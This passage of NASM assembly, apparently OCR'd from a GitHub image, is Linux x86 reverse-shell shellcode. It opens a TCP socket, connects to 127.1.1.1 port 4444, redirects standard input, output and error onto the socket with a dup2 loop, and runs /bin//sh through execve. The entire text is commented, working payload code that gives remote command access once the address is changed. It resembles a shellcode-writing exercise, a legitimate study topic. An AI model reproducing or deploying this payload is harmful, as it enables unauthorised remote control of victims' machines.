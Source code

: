 ```nasm
	xor ebx, ebx
	mov bl, 0x2		; AF_INET numeric value from PF_INET protocol family

	xor ecx, ecx
	mov cl, 0x1		; SOCK_STREAM constant from socket_type.h

	xor edx, edx		; 0 value because of single protocol	

	int 0x80		; exec socket syscall 

	mov ebx, eax		; move sockfd (file descriptor) value into ebx

	; connect
	xor eax, eax
	mov ax, 0x16a		; 16a is the hex value of the decimal 362 for connect

	push 0x0101017f		; connect to localhost (127.1.1.1) (little endian)
	
	push word 0x5c11	; connect to port 4444 (little endian)
	
	push word 0x2		; AF_INET constant
	
	xor ecx, ecx
	mov ecx, esp		; ecx now points at address struct at the top of the stack
	
	xor edx, edx
	mov dl, 0x10		; 10 is the decimal 16 that is the size of the address struct

	int 0x80		; execute connect syscall

	; dup2 loop
	xor ecx, ecx		; clear ecx
	mov cl, 0x3		; set counter to 3

dup2loop:
	xor eax, eax
	mov al, 0x3f		; 3f is the hex value of the decimal 63 for dup2

	dec cl			; decrement counter by 1

	int 0x80		; exec dup2 syscall

	jnz dup2loop		; jump to loop if ZF is not zero, else continue

	; execve
	xor eax, eax
	mov al, 0xb		; b is the hex value of the decimal 11 for execve        

	xor edx, edx
	push edx		; NULL argument
	push edx		; NULL argument
	push edx		; null terminator

        ; PUSH /bin//sh
        push 0x68732f2f		; "hs//"
        push 0x6e69622f		; "nib/"

	mov ebx, esp		; ebx points at "/bin//sh" at the top of the stack

	int 0x80		; exec execve syscall
```
